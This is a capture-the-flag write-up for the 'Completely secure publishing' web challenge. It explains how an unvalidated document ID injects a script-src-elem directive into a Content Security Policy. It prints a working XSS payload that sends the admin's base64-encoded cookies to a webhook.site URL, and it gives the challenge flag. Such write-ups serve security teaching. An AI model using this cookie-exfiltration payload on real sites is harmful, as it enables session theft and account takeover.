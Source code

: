 # Completely secure publishing

This challenge is obviously an XSS based challenge that has content security policy enabled.

The CSP is very secure, with `default-src: 'none'; connect-src 'none';`.

However, something interesting is the site sets the CSP using some user input: ```report-uri /report-csp-violation?id=${req.params.id}`);`` :thinking:. `req.params.id` is checked such that a document with such an ID exists in the database. If we can somehow control this ID, we can inject stuff into the CSP. 

Fortunately, there is no check when inserting into the DB, so we can control this ID. However, if we inject `script-src 'unsafe-inline'` it still doesn't work since the browser takes the first directive. Fortunately, [script-src-elem](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-elem) is a newly introduced directive that  overrides `script-src` for script tags. However, with `connect-src: 'none'`, how are we going to get the flag out? 

It seems [connect-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src) only applies to `fetch` and a few other APIs. One way to circumvent this is to dynamically create another script tag that has a `src` set to some other site. This is possible because we can whitelist the external site through the `srcipt-src-elem`.

Final payload:

```json
{
    "title":"Hello, world",
    "content":"<script>var script = document.createElement('script');script.src = `http://webhook.site/004a7611-4cc0-49de-99e5-c6a84e8ff031?${btoa(document.cookie)}`;document.head.appendChild(script);</script>",
    "_id":"givflagpls; script-src-elem 'unsafe-inline' webhook.site ; abc z;"
}
```

Once the admin's cookies are obtained, just set the secret cookie and get the flag:

`bcactf{csp_g0_brr_g84en9}`

